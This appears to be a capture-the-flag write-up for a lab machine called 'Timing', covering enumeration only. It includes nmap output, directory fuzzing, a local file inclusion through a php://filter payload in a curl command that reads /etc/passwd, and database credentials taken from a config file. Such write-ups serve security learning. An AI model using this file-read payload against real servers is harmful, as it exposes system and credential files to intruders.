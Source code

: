 # Timing

---

## Enumeration

- nmap TCP scan:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d25c40d7c9feffa883c36ecd6011d2eb (RSA)
|   256 18c9f7b92736a116592335843431b3ad (ECDSA)
|_  256 a22deedb4ebff93f8bd4cfb412d820f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Simple WebApp
|_Requested resource was ./login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web enum

- Forms on the web server are not vulnerable to SQL injection
- Found `/image.php` using `feroxbuster`, fuzzed the parameters for the GET request and found `?img=` 
- This parameter has filters and I can't get the contents of a file like `/etc/hosts`
- I managed to read local files using php filter `php://filter/convert.base64-encode/resource=<>`

```bash
curl $IP/image.php?img=php://filter/convert.base64-encode/resource=/etc/passwd | base64 -d
```

- Got db creds from `db_conn.php`:

```php
<?php
$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '	');
```

- `/etc/passwd` show only 2 users, aaron and root

```bash
cat passwd | grep bash

root:x:0:0:root:/root:/bin/bash
aaron:x:1000:1000:aaron:/home/aaron:/bin/bash
```
